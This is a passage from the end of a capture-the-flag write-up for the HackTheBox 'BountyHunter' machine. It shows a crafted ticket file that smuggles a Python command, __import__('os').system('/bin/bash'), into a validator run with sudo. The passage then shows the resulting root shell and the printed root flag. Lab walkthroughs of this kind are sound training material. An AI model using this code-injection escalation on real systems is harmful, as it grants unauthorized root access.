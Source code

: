     vim schoon.md

    (enter below code to VIM)
    # Skytrain Inc
    ## Ticket to root
    __Ticket Code:__
    **102+ 10 == 112 and __import__('os').system('/bin/bash') == False

    (save and exit)
    ```

20. Execute the python code

    ```
    development@bountyhunter:/tmp$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
    Please enter the path to the ticket file.
    schoon.md
    Destination: root

    root@bountyhunter:/tmp# ls
    file.md
    systemd-private-0bd912db501f44f39b85195cd581656e-apache2.service-o7XTXg
    systemd-private-0bd912db501f44f39b85195cd581656e-systemd-logind.service-RsZRBg
    systemd-private-0bd912db501f44f39b85195cd581656e-systemd-resolved.service-8O5wfi
    systemd-private-0bd912db501f44f39b85195cd581656e-systemd-timesyncd.service-c2H7tj
    vmware-root_658-2697598381

    root@bountyhunter:/tmp# ls ~
    root.txt  snap

    root@bountyhunter:/tmp# cat ~/root.txt
    b6b97c6ddec32f72ea990ca224aa0ae4
    ```

Reference:

1. https://l33t-en0ugh.gitbook.io/infosec/hackthebox/bountyhunter-easy
2. https://github.com/payloadbox/xxe-injection-payload-list
3. https://portswigger.net/web-security/xxe
4. https://www.youtube.com/watch?v=gjm6VHZa_8s

<br><br>

[back to HOME](./)
